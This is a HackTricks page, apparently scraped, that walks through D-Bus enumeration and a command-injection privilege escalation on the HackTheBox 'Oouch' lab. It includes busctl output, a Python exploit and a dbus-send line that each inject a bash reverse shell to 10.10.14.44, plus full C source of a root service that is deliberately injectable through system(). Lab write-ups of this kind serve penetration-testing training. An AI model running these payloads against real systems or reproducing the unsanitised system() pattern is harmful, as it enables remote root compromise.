

D-Bus Enumeration & Command Injection Privilege Escalation - HackTricks

# D-Bus Enumeration & Command Injection Privilege Escalation

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 438.549 438.549' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2159'%3e%3cg data-evernote-id='2160' class='js-evernote-checked'%3e%3cpath d='M409.132 114.573c-19.608-33.596-46.205-60.194-79.798-79.8-33.598-19.607-70.277-29.408-110.063-29.408-39.781 0-76.472 9.804-110.063 29.408-33.596 19.605-60.192 46.204-79.8 79.8C9.803 148.168 0 184.854 0 224.63c0 47.78 13.94 90.745 41.827 128.906 27.884 38.164 63.906 64.572 108.063 79.227 5.14.954 8.945.283 11.419-1.996 2.475-2.282 3.711-5.14 3.711-8.562 0-.571-.049-5.708-.144-15.417a2549.81 2549.81 0 0 1-.144-25.406l-6.567 1.136c-4.187.767-9.469 1.092-15.846 1-6.374-.089-12.991-.757-19.842-1.999-6.854-1.231-13.229-4.086-19.13-8.559-5.898-4.473-10.085-10.328-12.56-17.556l-2.855-6.57c-1.903-4.374-4.899-9.233-8.992-14.559-4.093-5.331-8.232-8.945-12.419-10.848l-1.999-1.431c-1.332-.951-2.568-2.098-3.711-3.429-1.142-1.331-1.997-2.663-2.568-3.997-.572-1.335-.098-2.43 1.427-3.289 1.525-.859 4.281-1.276 8.28-1.276l5.708.853c3.807.763 8.516 3.042 14.133 6.851 5.614 3.806 10.229 8.754 13.846 14.842 4.38 7.806 9.657 13.754 15.846 17.847 6.184 4.093 12.419 6.136 18.699 6.136 6.28 0 11.704-.476 16.274-1.423 4.565-.952 8.848-2.383 12.847-4.285 1.713-12.758 6.377-22.559 13.988-29.41-10.848-1.14-20.601-2.857-29.264-5.14-8.658-2.286-17.605-5.996-26.835-11.14-9.235-5.137-16.896-11.516-22.985-19.126-6.09-7.614-11.088-17.61-14.987-29.979-3.901-12.374-5.852-26.648-5.852-42.826 0-23.035 7.52-42.637 22.557-58.817-7.044-17.318-6.379-36.732 1.997-58.24 5.52-1.715 13.706-.428 24.554 3.853 10.85 4.283 18.794 7.952 23.84 10.994 5.046 3.041 9.089 5.618 12.135 7.708 17.705-4.947 35.976-7.421 54.818-7.421s37.117 2.474 54.823 7.421l10.849-6.849c7.419-4.57 16.18-8.758 26.262-12.565 10.088-3.805 17.802-4.853 23.134-3.138 8.562 21.509 9.325 40.922 2.279 58.24 15.036 16.18 22.559 35.787 22.559 58.817 0 16.178-1.958 30.497-5.853 42.966-3.9 12.471-8.941 22.457-15.125 29.979-6.191 7.521-13.901 13.85-23.131 18.986-9.232 5.14-18.182 8.85-26.84 11.136-8.662 2.286-18.415 4.004-29.263 5.146 9.894 8.562 14.842 22.077 14.842 40.539v60.237c0 3.422 1.19 6.279 3.572 8.562 2.379 2.279 6.136 2.95 11.276 1.995 44.163-14.653 80.185-41.062 108.068-79.226 27.88-38.161 41.825-81.126 41.825-128.906-.01-39.771-9.818-76.454-29.414-110.049z' data-evernote-id='2161' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation.md)

**The examples of this page are based on the Oouch box from HTB.**

#

**Enumeration**

##

List Service Objects

It's possible to list opened D-Bus interfaces with:

Copy

1busctl list #List D-Bus interfaces
2​
3NAME PID PROCESS USER CONNECTION UNIT SE
4:1.0 1 systemd root :1.0 init.scope -
5:1.1345 12817 busctl qtc :1.1345 session-729.scope 72
6:1.2 1576 systemd-timesyn systemd-timesync :1.2 systemd-timesyncd.service -
7:1.3 2609 dbus-server root :1.3 dbus-server.service -
8:1.4 2606 wpa_supplicant root :1.4 wpa_supplicant.service -
9:1.6 2612 systemd-logind root :1.6 systemd-logind.service -
10:1.8 3087 unattended-upgr root :1.8 unattended-upgrades.serv… -
11:1.820 6583 systemd qtc :1.820 user@1000.service -
12com.ubuntu.SoftwareProperties - - - (activatable) - -

13fi.epitest.hostap.WPASupplicant 2606 wpa_supplicant root :1.4 wpa_supplicant.service -

14fi.w1.wpa_supplicant1 2606 wpa_supplicant root :1.4 wpa_supplicant.service -
15htb.oouch.Block 2609 dbus-server root :1.3 dbus-server.service -
16org.bluez - - - (activatable) - -
17org.freedesktop.DBus 1 systemd root - init.scope -
18org.freedesktop.PackageKit - - - (activatable) - -
19org.freedesktop.PolicyKit1 - - - (activatable) - -
20org.freedesktop.hostname1 - - - (activatable) - -
21org.freedesktop.locale1 - - - (activatable) - -

##

Service Object Info

Then, you can obtain some information about the interface with:

Copy

22busctl status htb.oouch.Block #Get info of "htb.oouch.Block" interface
23​
24PID=2609
25PPID=1
26TTY=n/a
27UID=0
28EUID=0
29SUID=0
30FSUID=0
31GID=0
32EGID=0
33SGID=0
34FSGID=0
35SupplementaryGIDs=
36Comm=dbus-server
37CommandLine=/root/dbus-server
38Label=unconfined
39CGroup=/system.slice/dbus-server.service
40Unit=dbus-server.service
41Slice=system.slice
42UserUnit=n/a
43UserSlice=n/a
44Session=n/a
45AuditLoginUID=n/a
46AuditSessionID=n/a
47UniqueName=:1.3
48EffectiveCapabilities=cap_chown cap_dac_override cap_dac_read_search
49 cap_fowner cap_fsetid cap_kill cap_setgid
50 cap_setuid cap_setpcap cap_linux_immutable cap_net_bind_service
51 cap_net_broadcast cap_net_admin cap_net_raw cap_ipc_lock
52 cap_ipc_owner cap_sys_module cap_sys_rawio cap_sys_chroot
53 cap_sys_ptrace cap_sys_pacct cap_sys_admin cap_sys_boot
54 cap_sys_nice cap_sys_resource cap_sys_time cap_sys_tty_config
55 cap_mknod cap_lease cap_audit_write cap_audit_control
56 cap_setfcap cap_mac_override cap_mac_admin cap_syslog
57 cap_wake_alarm cap_block_suspend cap_audit_read
58PermittedCapabilities=cap_chown cap_dac_override cap_dac_read_search
59 cap_fowner cap_fsetid cap_kill cap_setgid
60 cap_setuid cap_setpcap cap_linux_immutable cap_net_bind_service
61 cap_net_broadcast cap_net_admin cap_net_raw cap_ipc_lock
62 cap_ipc_owner cap_sys_module cap_sys_rawio cap_sys_chroot
63 cap_sys_ptrace cap_sys_pacct cap_sys_admin cap_sys_boot
64 cap_sys_nice cap_sys_resource cap_sys_time cap_sys_tty_config
65 cap_mknod cap_lease cap_audit_write cap_audit_control
66 cap_setfcap cap_mac_override cap_mac_admin cap_syslog
67 cap_wake_alarm cap_block_suspend cap_audit_read
68InheritableCapabilities=
69BoundingCapabilities=cap_chown cap_dac_override cap_dac_read_search
70 cap_fowner cap_fsetid cap_kill cap_setgid
71 cap_setuid cap_setpcap cap_linux_immutable cap_net_bind_service
72 cap_net_broadcast cap_net_admin cap_net_raw cap_ipc_lock
73 cap_ipc_owner cap_sys_module cap_sys_rawio cap_sys_chroot
74 cap_sys_ptrace cap_sys_pacct cap_sys_admin cap_sys_boot
75 cap_sys_nice cap_sys_resource cap_sys_time cap_sys_tty_config
76 cap_mknod cap_lease cap_audit_write cap_audit_control
77 cap_setfcap cap_mac_override cap_mac_admin cap_syslog
78 cap_wake_alarm cap_block_suspend cap_audit_read

##

List Interfaces of a Service Object

You need to have enough permissions.

Copy

79busctl tree htb.oouch.Block #Get Interfaces of the service object
80​
81└─/htb
82 └─/htb/oouch
83 └─/htb/oouch/Block

##

Introspect Interface of a Service Object

Note how in this example it was selected the latest interface discovered using the `tree ` parameter (*see previous section*):

Copy

84busctl introspect htb.oouch.Block /htb/oouch/Block #Get methods of the interface

85​
86NAME TYPE SIGNATURE RESULT/VALUE FLAGS
87htb.oouch.Block interface - - -
88.Block method s s -
89org.freedesktop.DBus.Introspectable interface - - -
90.Introspect method - s -
91org.freedesktop.DBus.Peer interface - - -
92.GetMachineId method - s -
93.Ping method - - -
94org.freedesktop.DBus.Properties interface - - -
95.Get method ss v -
96.GetAll method s a{sv} -
97.Set method ssv - -
98.PropertiesChanged signal sa{sv}as - -

Note the method `.Block ` of the interface `htb.oouch.Block ` (the one we are interested in). The "s" of the other columns may mean that it's expecting a string.

##

Monitor/Capture Interface

With enough privileges (just `send_destination ` and `receive_sender ` privileges aren't enough) you can monitor a D-Bus communication. In the following example the interface `htb.oouch.Block ` is monitored and **the message "*****lalalalal*****" is sent through miscommunication**:

Copy

99busctl monitor htb.oouch.Block
100​
101Monitoring bus message stream.
102‣ Type=method_call Endian=l Flags=0 Version=1 Priority=0 Cookie=2

103 Sender=:1.1376 Destination=htb.oouch.Block Path=/htb/oouch/Block Interface=htb.oouch.Block Member=Block

104 UniqueName=:1.1376
105 MESSAGE "s"  {
106 STRING "lalalalal";
107  };
108​

109‣ Type=method_return Endian=l Flags=1 Version=1 Priority=0 Cookie=16 ReplyCookie=2

110 Sender=:1.3 Destination=:1.1376
111 UniqueName=:1.3
112 MESSAGE "s"  {
113 STRING "Carried out :D";
114  };

You can use `capture ` instead of `monitor ` to save the results in a pcap file.

##

More

`busctl ` have even more options, [**find all of them here**](https://www.freedesktop.org/software/systemd/man/busctl.html).

#

**Vulnerable Scenario**

As user **qtc inside the host "oouch" **you can find an **unexpected D-Bus config file** located in* /etc/dbus-1/system.d/htb.oouch.Block.conf*:

Copy

115<?xml version="1.0" encoding="UTF-8"?>  <!-- -*- XML -*- -->
116​
117<!DOCTYPE busconfig PUBLIC
118 "-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
119 "http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">
120​
121<busconfig>
122​
123  <policy  user="root">
124  <allow  own="htb.oouch.Block"/>
125  </policy>
126​
127<policy  user="www-data">
128<allow  send_destination="htb.oouch.Block"/>
129<allow  receive_sender="htb.oouch.Block"/>
130</policy>
131​
132</busconfig>

Note from the previous configuration that** you will need to be the user **`**root** `** or **`**www-data** `** to send and receive information** via this D-BUS communication.

As user **qtc **inside the docker container **aeb4525789d8** you can find some dbus related code in the file */code/oouch/routes.py. *This is the interesting code:

Copy

133if primitive_xss.search(form.textfield.data):
134 bus = dbus.SystemBus()
135 block_object = bus.get_object('htb.oouch.Block',  '/htb/oouch/Block')

136 block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

137​
138 client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
139 response = block_iface.Block(client_ip)
140 bus.close()
141  return render_template('hacker.html', title='Hacker')

As you can see, it is **connecting to a D-Bus interface** and sending to the **"Block" function** the "client_ip".

In the other side of the D-Bus connection there is some C compiled binary running. This code is **listening **in the D-Bus connection **for IP address and is calling iptables via **`**system** `** function** to block the given IP address.**The call to **`**system** `** is vulnerable on purpose to command injection**, so a payload like the following one will create a reverse shell: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' # `

##

Exploit it

At the end of this page you can find the** complete C code of the D-Bus application**. Inside of it you can find between the lines 91-97 **how the *****D-Bus object path***  **and *****interface name***** are registered**. This information will be necessary to send information to the D-Bus connection:

Copy

142  /* Install the object */
143 r =  sd_bus_add_object_vtable(bus,
144  &slot,
145  "/htb/oouch/Block",  /* interface */
146  "htb.oouch.Block",  /* service object */
147 block_vtable,
148  NULL);

Also, in line 57 you can find that **the only method registered** for this D-Bus communication is called `Block `(***Thats why in the following section the payloads are going to be sent to the service object ***`***htb.oouch.Block*** `***, the interface ***`***/htb/oouch/Block*** `*** and the method name ***`***Block*** `):

Copy

SD_BUS_METHOD("Block",  "s",  "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),

###

Python

The following python code will send the payload to the D-Bus connection to the `Block ` method via `block_iface.Block(runme) ` (*note that it was extracted from the previous chunk of code*):

Copy

150import dbus
151bus = dbus.SystemBus()
152block_object = bus.get_object('htb.oouch.Block',  '/htb/oouch/Block')
153block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
154runme =  ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
155response = block_iface.Block(runme)
156bus.close()

###

busctl and dbus-send

Copy

dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';pring -c 1 10.10.14.44 #'

- `dbus-send ` is a tool used to send message to “Message Bus”
- Message Bus – A software used by systems to make communications between applications easily. It’s related to Message Queue (messages are ordered in sequence) but in Message Bus the messages are sending in a subscription model and also very quick.
- “-system” tag is used to mention that it is a system message, not a session message (by default).
- “–print-reply” tag is used to print our message appropriately and receives any replies in a human-readable format.
- “–dest=Dbus-Interface-Block” The address of the Dbus interface.
- “–string:” – Type of message we like to send to the interface. There are several formats of sending messages like double, bytes, booleans, int, objpath. Out of this, the “object path” is useful when we want to send a path of a file to the Dbus interface. We can use a special file (FIFO) in this case to pass a command to interface in the name of a file. “string:;” – This is to call the object path again where we place of FIFO reverse shell file/command.

*Note that in *`*htb.oouch.Block.Block* `*, the first part (*`*htb.oouch.Block* `*) references the service object and the last part (*`*.Block* `*) references the method name.*

##

C code 

Copy

158#include  <stdio.h>
159#include  <stdlib.h>
160#include  <string.h>
161#include  <errno.h>
162#include  <unistd.h>
163#include  <systemd/sd-bus.h>
164​

165static  int  method_block(sd_bus_message *m,  void  *userdata, sd_bus_error *ret_error)  {

166  char* host =  NULL;
167  int r;
168​
169  /* Read the parameters */
170 r =  sd_bus_message_read(m,  "s",  &host);
171  if  (r <  0)  {
172  fprintf(stderr,  "Failed to obtain hostname: %s\n",  strerror(-r));
173  return r;
174  }
175​
176  char command[]  =  "iptables -A PREROUTING -s %s -t mangle -j DROP";
177​
178  int command_len =  strlen(command);
179  int host_len =  strlen(host);
180​

181  char* command_buffer =  (char  *)malloc((host_len + command_len)  *  sizeof(char));

182  if(command_buffer ==  NULL)  {
183  fprintf(stderr,  "Failed to allocate memory\n");
184  return  -1;
185  }
186​
187  sprintf(command_buffer, command, host);
188​

189  /* In the first implementation, we simply ran command using system(), since the expected DBus

190 * to be threading automatically. However, DBus does not thread and the application will hang

191 * forever if some user spawns a shell. Thefore we need to fork (easier than implementing real

192 * multithreading)
193 */
194  int pid =  fork();
195​
196  if  ( pid ==  0  )  {

197  /* Here we are in the child process. We execute the command and eventually exit. */

198  system(command_buffer);
199  exit(0);
200  }  else  {

201  /* Here we are in the parent process or an error occured. We simply send a genric message.

202 * In the first implementation we returned separate error messages for success or failure.

203 * However, now we cannot wait for results of the system call. Therefore we simply return

204 * a generic. */
205  return  sd_bus_reply_method_return(m,  "s",  "Carried out :D");
206  }
207 r =  system(command_buffer);
208}
209​
210​

211/* The vtable of our little object, implements the net.poettering.Calculator interface */

212static  const sd_bus_vtable block_vtable[]  =  {
213  SD_BUS_VTABLE_START(0),

214  SD_BUS_METHOD("Block",  "s",  "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),

215 SD_BUS_VTABLE_END
216};
217​
218​
219int  main(int argc,  char  *argv[])  {
220  /*
221 * Main method, registeres the htb.oouch.Block service on the system dbus.
222 *
223 * Paramaters:
224 * argc (int) Number of arguments, not required
225 * argv[] (char**) Argument array, not required
226 *
227 * Returns:
228 * Either EXIT_SUCCESS ot EXIT_FAILURE. Howeverm ideally it stays alive
229 * as long as the user keeps it alive.
230 */
231​
232​

233  /* To prevent a huge numer of defunc process inside the tasklist, we simply ignore client signals */

234  signal(SIGCHLD,SIG_IGN);
235​
236 sd_bus_slot *slot =  NULL;
237 sd_bus *bus =  NULL;
238  int r;
239​
240  /* First we need to connect to the system bus. */
241 r =  sd_bus_open_system(&bus);
242  if  (r <  0)
243  {
244  fprintf(stderr,  "Failed to connect to system bus: %s\n",  strerror(-r));
245  goto finish;
246  }
247​
248  /* Install the object */
249 r =  sd_bus_add_object_vtable(bus,
250  &slot,
251  "/htb/oouch/Block",  /* interface */
252  "htb.oouch.Block",  /* service object */
253 block_vtable,
254  NULL);
255  if  (r <  0)  {

256  fprintf(stderr,  "Failed to install htb.oouch.Block: %s\n",  strerror(-r));

257  goto finish;
258  }
259​
260  /* Register the service name to find out object */
261 r =  sd_bus_request_name(bus,  "htb.oouch.Block",  0);
262  if  (r <  0)  {
263  fprintf(stderr,  "Failed to acquire service name: %s\n",  strerror(-r));
264  goto finish;
265  }
266​
267  /* Infinite loop to process the client requests */
268  for  (;;)  {
269  /* Process requests */
270 r =  sd_bus_process(bus,  NULL);
271  if  (r <  0)  {
272  fprintf(stderr,  "Failed to process bus: %s\n",  strerror(-r));
273  goto finish;
274  }

275  if  (r >  0)  /* we processed a request, try to process another one, right-away */

276  continue;
277​
278  /* Wait for the next request to process */
279 r =  sd_bus_wait(bus,  (uint64_t)  -1);
280  if  (r <  0)  {
281  fprintf(stderr,  "Failed to wait on bus: %s\n",  strerror(-r));
282  goto finish;
283  }
284  }
285​
286finish:
287  sd_bus_slot_unref(slot);
288  sd_bus_unref(bus);
289​
290  return r <  0  ? EXIT_FAILURE : EXIT_SUCCESS;
291}

[ Previous Cisco - vmanage](https://book.hacktricks.xyz/linux-unix/privilege-escalation/cisco-vmanage)[ Next  Interesting Groups - Linux PE   ](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe)

CPol
Last updated 2 weeks ago
Was this page helpful?

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 24 24' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='5110'%3e%3cg data-evernote-id='5111' class='js-evernote-checked'%3e%3cpath d='M9.707 8.707a.993.993 0 0 0 .006-1.396 1.007 1.007 0 0 0-1.408-.03C8.273 7.312 7.519 8 6 8c-1.497 0-2.251-.67-2.303-.717a1 1 0 0 0-1.404 1.424C2.425 8.839 3.653 10 6 10c2.347 0 3.575-1.161 3.707-1.293m12 0a.993.993 0 0 0 .006-1.396 1.006 1.006 0 0 0-1.408-.03C20.273 7.312 19.519 8 18 8c-1.497 0-2.251-.67-2.303-.717a1 1 0 0 0-1.404 1.424C14.425 8.839 15.653 10 18 10c2.347 0 3.575-1.161 3.707-1.293M21.001 19a1 1 0 0 1-.896-.553C20.036 18.314 18.225 15 12 15c-6.225 0-8.036 3.314-8.11 3.456a1.002 1.002 0 0 1-1.344.43.997.997 0 0 1-.441-1.333C2.198 17.367 4.469 13 12 13s9.802 4.367 9.895 4.553A1.001 1.001 0 0 1 21.001 19' fill-rule='evenodd' data-evernote-id='5112' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 24 24' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='5118'%3e%3cg data-evernote-id='5119' class='js-evernote-checked'%3e%3cpath d='M9.707 8.707a.999.999 0 0 0 0-1.414C9.575 7.161 8.347 6 6 6 3.653 6 2.425 7.161 2.293 7.293a.992.992 0 0 0-.005 1.396 1.007 1.007 0 0 0 1.408.029C3.727 8.689 4.481 8 6 8c1.52 0 2.273.689 2.293.707a.997.997 0 0 0 1.414 0m12 0a.999.999 0 0 0 0-1.414C21.575 7.161 20.347 6 18 6c-2.347 0-3.575 1.161-3.707 1.293a.992.992 0 0 0-.005 1.396 1.006 1.006 0 0 0 1.407.029C15.727 8.689 16.481 8 18 8c1.52 0 2.273.689 2.293.707a.997.997 0 0 0 1.414 0M12 19c-7.53 0-9.8-4.367-9.894-4.553a1.001 1.001 0 0 1 1.786-.902C3.974 13.704 5.792 17 12 17c6.226 0 8.037-3.314 8.111-3.456a1.007 1.007 0 0 1 1.344-.43.998.998 0 0 1 .441 1.333C21.802 14.633 19.531 19 12 19' fill-rule='evenodd' data-evernote-id='5120' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)